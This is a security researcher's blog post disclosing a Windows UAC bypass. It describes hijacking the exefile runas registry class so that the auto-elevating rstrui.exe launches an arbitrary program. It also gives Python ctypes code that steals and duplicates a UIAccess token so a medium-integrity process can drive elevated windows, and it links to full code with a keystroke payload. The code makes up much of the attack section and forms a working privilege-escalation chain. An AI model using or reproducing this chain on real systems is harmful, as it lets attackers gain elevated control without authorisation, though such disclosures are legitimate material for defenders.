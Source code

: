 ```yaml
---
layout: post
title: RESEARCHING RSTRUI PROCESS
vimeoId: 344967402
---
```


Rstrui is a signed Microsoft executable, which handles the system restore features. This executable has "autoElevate" property set to true in the manifest which
means it will run with high integrity level. While playing around in [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from
Sysinternals, I found out that rstrui.exe accepts command line arguments, I focused on the "/RUNONCE" argument.

While monitoring the activity, I couldn't find any vulnerabilities at first. The UI starts up and fails, because I haven't configured the
system restore feature on the test machine. Pressed the left button "Run System Restore", see picture below. 

![_config.yml]({{ site.baseurl }}/images/rstrui_ui.JPG)

And checked back at ProcessMonitor, saw that it suffers from a class hijacking vulnerability, see picture below.

![_config.yml]({{ site.baseurl }}/images/rstrui_procmon.JPG)

If adding path to another executable in the {Default} value at "HKCU\Software\Classes\exefile\shell\runas\command\" we can trick rstrui to elevate another executable once
pressing "Run System Restore" button.

{% include vimeo.html id=page.vimeoId %}

One problem is that we cannot control this UI from a Medium IL process. In order to navigate the UI from a Medium IL process, we need to obtain a UIAccess token.

The first step is to either create or find a process with UIAccess flag, in this example we use "msra.exe" but could use "ctfmon.exe" which is running by default,
in that case we don't need to create a new process.
```python
shinfo = ShellExecInfo()
shinfo.cbSize = ctypes.sizeof(shinfo)
shinfo.fMask = 0x00000040
shinfo.lpFile = "msra.exe"
shinfo.nShow = 0
shinfo.lpParameters = None

with disable_fsr():
	if ctypes.windll.shell32.ShellExecuteExW(ctypes.byref(shinfo)):
		print "[+] Created host process PID: {pid} using ShellExecuteExW".format(pid=shinfo.hProcess)
	else:
		print "[-] Unable to create host process using ShellExecuteExW"
		return False
```

Open the token with TOKEN_DUPLICATE and TOKEN_QUERY access
```python
token = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtOpenProcessToken(shinfo.hProcess, (TOKEN_DUPLICATE | TOKEN_QUERY),
					ctypes.byref(token)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to open process token using NtOpenProcessToken"
	return False
else:
	print "[+] Opened process token using NtOpenProcessToken: {token}".format(token=token)
```

Duplicate primary token with TOKEN_ALL_ACCESS access
```python
dtoken = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtDuplicateToken(token, TOKEN_ALL_ACCESS, None, False,
					TOKEN_TYPE.TokenPrimary, ctypes.byref(dtoken)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to duplicate token using NtDuplicateToken"
	return False
else:
	print "[+] Duplicated token using NtDuplicateToken: {dtoken}".format(dtoken=dtoken)
```

Initialize Medium SID and lower the duplicated token from Medium+ to Medium integrity
```python
mlAuthority = SID_IDENTIFIER_AUTHORITY((0, 0, 0, 0, 0, 16))
pIntegritySid = ctypes.c_void_p()

if ctypes.windll.ntdll.RtlAllocateAndInitializeSid(ctypes.byref(mlAuthority), 1, IntegrityLevel.MEDIUM_RID,
					0, 0, 0, 0, 0, 0, 0, ctypes.byref(pIntegritySid)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to Initialize Medium SID using RtlAllocateAndInitializeSid"
	return False
else:
	print "[+] Initialized Medium SID using RtlAllocateAndInitializeSid"

saa = SID_AND_ATTRIBUTES()
saa.Attributes = GroupAttributes.SE_GROUP_INTEGRITY
saa.Sid = pIntegritySid

tml = TOKEN_MANDATORY_LABEL()
tml.Label = saa

if ctypes.windll.ntdll.NtSetInformationToken(dtoken, TOKEN_INFORMATION_CLASS.TokenIntegrityLevel,
					ctypes.byref(tml), ctypes.sizeof(tml)) == ctypes.c_ulong(0xC0000001):													
	print "[-] Unable to lower duplicated token IL from Medium+ to Medium using NtSetInformationToken"
	return False
else:
	print "[+] Lowered duplicated token IL from Medium+ to Medium using NtSetInformationToken"
```

Using CreateProcessAsUserA we can create a new process using the duplicated token, which has the UIAccess flag.
This process can control a High IL process with SendKeys or keyboard events.
```python
lpStartupInfo = STARTUPINFO()
lpStartupInfo.cb = ctypes.sizeof(lpStartupInfo)
lpStartupInfo.dwFlags = 0x00000001
lpStartupInfo.wShowWindow = 5
lpProcessInformation = PROCESS_INFORMATION()
lpApplicationName = "notepad.exe" # Path to executable that controls High IL process

if not ctypes.windll.advapi32.CreateProcessAsUserA(dtoken, None, lpApplicationName, None, None, False,
						(0x04000000 | 0x00000010), None, None, ctypes.byref(lpStartupInfo), ctypes.byref(lpProcessInformation)):
	print "[-] Unable to create process using CreateProcessAsUserA"
	return False
else:
	print "[+] Created process PID: {pid} using CreateProcessAsUserA".format(pid=lpProcessInformation.dwProcessId)
```

Full code can be found here, with payload (uihack.py) example to send keyboard events to High IL processes.
* [https://github.com/rootm0s/UIAP](https://github.com/rootm0s/UIAP)
